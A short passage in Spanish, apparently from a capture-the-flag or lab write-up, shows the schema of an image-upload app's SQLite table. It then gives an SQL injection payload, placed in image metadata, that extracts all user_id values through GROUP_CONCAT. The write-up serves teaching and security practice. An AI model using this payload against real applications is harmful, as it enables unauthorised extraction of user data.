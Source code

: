 ```sql
CREATE TABLE images (
	id INTEGER PRIMARY KEY AUTOINCREMENT, 
	user_id TEXT NOT NULL, 
	filename TEXT NOT NULL, 
	description TEXT, 
	latitude REAL, 
	longitude REAL, 
	datetime TEXT, 
	make TEXT, 
	model TEXT
)
```

Finalmente, para obtener los `user_id` que necesitamos, podemos construir una última imagen. 

> Payload: `',((SELECT GROUP_CONCAT(user_id , '|') FROM images ))) -- -`

![](images/misViajes/payloadMisViajes4.png)

Al subirlo, en el campo modelo obtenemos los `user_id` que estabamos buscando!
